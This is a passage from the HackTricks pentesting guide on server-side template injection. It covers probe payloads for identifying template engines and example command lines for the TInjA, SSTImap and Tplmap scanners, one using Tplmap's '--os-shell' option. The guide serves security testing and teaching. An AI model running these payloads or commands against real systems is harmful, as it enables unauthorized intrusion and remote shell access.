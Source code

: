 [](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#identification-phase)

Identification Phase

Identifying the template engine involves analyzing error messages or manually testing various language-specific payloads. Common payloads causing errors include `${7/0}`, `{{7/0}}`, and `<%= 7/0 %>`. Observing the server's response to mathematical operations helps pinpoint the specific template engine.

## 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tools)

Tools

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tinja)

[TInjA](https://github.com/Hackmanit/TInjA)

an efficient SSTI + CSTI scanner which utilizes novel polyglots



```
tinja url -u "http://example.com/?name=Kirlia" -H "Authentication: Bearer ey..."
tinja url -u "http://example.com/" -d "username=Kirlia"  -c "PHPSESSID=ABC123..."
```

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#sstimap)

[SSTImap](https://github.com/vladko312/sstimap)



```
python3 sstimap.py -i -l 5
python3 sstimap.py -u "http://example.com/" --crawl 5 --forms
python3 sstimap.py -u "https://example.com/page?name=John" -s
```

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tplmap)

[Tplmap](https://github.com/epinna/tplmap)



```
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#template-injection-table)
